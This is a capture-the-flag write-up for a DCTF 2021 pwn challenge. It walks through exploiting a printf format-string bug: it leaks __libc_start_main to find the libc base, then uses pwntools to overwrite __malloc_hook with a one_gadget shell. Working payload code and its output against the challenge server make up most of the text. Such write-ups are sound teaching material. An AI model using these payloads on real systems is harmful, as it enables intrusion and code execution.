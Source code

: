 
Function *vuln* allowed to input 100 characters into array that can store 104 bytes, then printed it with *printf*, considered using printf format exploit. A Dockerfile was also given, which indicated the server was using *ubuntu 18.04*, found libc version, *libc6_2.27-3ubuntu1.4*, was used accordingly, can be downloaded [here](https://ubuntu.pkgs.org/18.04/ubuntu-updates-main-amd64/libc6_2.27-3ubuntu1.4_amd64.deb.html).

```c
void vuln(void)
{
  long in_FS_OFFSET;
  char local_78 [104];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  do {
    puts("I won\'t ask you, what your name is. It\'s getting kinda old at this point");
    __isoc99_scanf("%100s",local_78);
    puts("you entered");
    printf(local_78);
    puts("");
    puts("");
  } while( true );
}
```

### Finding Offset

Ran the program in *gdb*, break at the line to call *printf*.

Input ``"%n$p"`` to print the content at nth place in stack, tried out several times from 1, found the offset to be 6.


```bash
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffda10│+0x0000: 0x0000000070243625 ("%6$p"?)         ← $rsp
0x00007fffffffda18│+0x0008: 0x0000000000000000
0x00007fffffffda20│+0x0010: 0x0000000000000000
0x00007fffffffda28│+0x0018: 0x0000000000000000                                                                                                                          
0x00007fffffffda30│+0x0020: 0x0000555555400040  →   (bad) 
0x00007fffffffda38│+0x0028: 0x0000000000000009    
0x00007fffffffda40│+0x0030: 0x0000000000f0b2ff                       
0x00007fffffffda48│+0x0038: 0x00000000000000c2                                    
0x00007fffffffda50│+0x0040: 0x0000000000000001                     
```

```bash
gef➤  c                                                                                                                                                                 
Continuing.

0x70243625                         
```

### Finding Libc Base

For a better view of stack in *gdb*, configured *gef* to show more lines in stack section.

```bash
gef➤  gef config context.nb_lines_stack 32
```

To find libc base used *__libc_start_main* as the function to leak. Found a relative address that was pushed into stack, like ``<__libc_start_main+x>``, calculate *__libc_start_main* address by formular ``<address in stack> - x``, then libc base would be ``<__libc_start_main address> - <__libc_start_main offset in libc>``. Tried out different n in format ``%n$p``, until the value printed by program matchs address of ``<__libc_start_main+x>``. In this case it was 23.

```bash
...
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffd980│+0x0000: 0x0000007024333225 ("%23$p"?)        ← $rsp
0x00007fffffffd988│+0x0008: 0x0000000000000000
0x00007fffffffd990│+0x0010: 0x0000000000000000
0x00007fffffffd998│+0x0018: 0x0000000000000000                                                                                                        
0x00007fffffffd9a0│+0x0020: 0x0000555555400040  →   (bad) 
0x00007fffffffd9a8│+0x0028: 0x0000000000000009    
0x00007fffffffd9b0│+0x0030: 0x0000000000f0b2ff                       
0x00007fffffffd9b8│+0x0038: 0x00000000000000c2                                                                                                        
0x00007fffffffd9c0│+0x0040: 0x0000000000000001                     
0x00007fffffffd9c8│+0x0048: 0x000055555540081d  →  <__libc_csu_init+77> add rbx, 0x1
0x00007fffffffd9d0│+0x0050: 0x0000000000000000                     
0x00007fffffffd9d8│+0x0058: 0x0000000000000000                    
0x00007fffffffd9e0│+0x0060: 0x00005555554007d0  →  <__libc_csu_init+0> push r15
0x00007fffffffd9e8│+0x0068: 0x065e6fd2fd8fae00                                                                                                        
0x00007fffffffd9f0│+0x0070: 0x00007fffffffda00  →  0x00005555554007d0  →  <__libc_csu_init+0> push r15   ← $rbp
0x00007fffffffd9f8│+0x0078: 0x00005555554007c4  →  <main+24> mov eax, 0x0                                                                             
0x00007fffffffda00│+0x0080: 0x00005555554007d0  →  <__libc_csu_init+0> push r15
0x00007fffffffda08│+0x0088: 0x00007ffff7dfb082  →  <__libc_start_main+231> mov edi, eax
...
gef➤  c
Continuing.
0x7ffff7dfb082

I won't ask you, what your name is. It's getting kinda old at this point
```

### Using One Gadget

We needed to overwrite *__malloc_hook* with *system("/bin/sh")* gadget, once *printf* was triggered to use heap, *malloc* was called, so as *__malloc_hook*. One gadget is handy for this task. Those addresses are offsets in libc, also needed to change according to libc base found above, used one that works.

```bash
$ one_gadget libc-2.27.so 
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
rsp & 0xf == 0
rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
[rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
[rsp+0x70] == NULL
```

### Cat flag.txt

Created the first payload to print the 23rd position in stack.

```python
gadgets = [0x4f3d5, 0x4f432, 0x10a41c]

payload = "%{}$p".format(23)
pr.sendlineafter("point\n", payload)
pr.readline()

libc_start_main_addr = int(pr.readline().strip().decode(), 16) - 231
libc.sym['gadget'] = gadgets[2]
libc.address = libc_start_main_addr - libc.sym['__libc_start_main']
```

Created the second payload to overwrite *__malloc_hook*. Needed to update ``pwn.context`` ahead, ``pwn.context.clear(bits=64)``, in case it ran into wrong limit of address.

```python
stack_offset = 6
payload = pwn.fmtstr_payload(stack_offset, {libc.sym["__malloc_hook"]:libc.sym['gadget']}, write_size='short')
pr.sendafter("point\n", payload)
pr.sendline()
```

Created the third payload to trigger *printf* to call *malloc*.

```python
payload = b"%65537$c"
pr.sendafter("point\n", payload)
pr.sendline()
```

Finally, favorite part.

```python
pr.readline()
pr.sendline('cat flag.txt')
print(pr.readall(2))
```

```bash
[+] Opening connection to dctf-chall-formats-last-theorem.westeurope.azurecontainer.io on port 7482: Done
libc @ 0x7f1d213a3000
gadget @ 0x7f1d214ad41c
__libc_start_main @ 0x7f1d213c4b10
__malloc_hook @ 0x7f1d2178ec30
b'%54300c%11$lln%19758c%12$hn%24019c%13$hn0\xecx!\x1d\x7f\x00\x002\xecx!\x1d\x7f\x00\x004\xecx!\x1d\x7f\x00\x00' 64
[+] Receiving all data: Done (34B)
[*] Closed connection to dctf-chall-formats-last-theorem.westeurope.azurecontainer.io port 7482
b'dctf{N0t_all_7h30r3ms_s0und_g00d}\n'
```

Full exploit is [here](https://github.com/onealmond/hacking-lab/blob/master/dctf-2021/formats-last-theorem/exploit.py).

### Reference

- [Use Printf To Trigger Malloc And Free](https://github.com/Naetw/CTF-pwn-tips#use-printf-to-trigger-malloc-and-free)
- [One Gadgets And Malloc Hook](https://ir0nstone.gitbook.io/notes/types/stack/one-gadgets-and-malloc-hook)
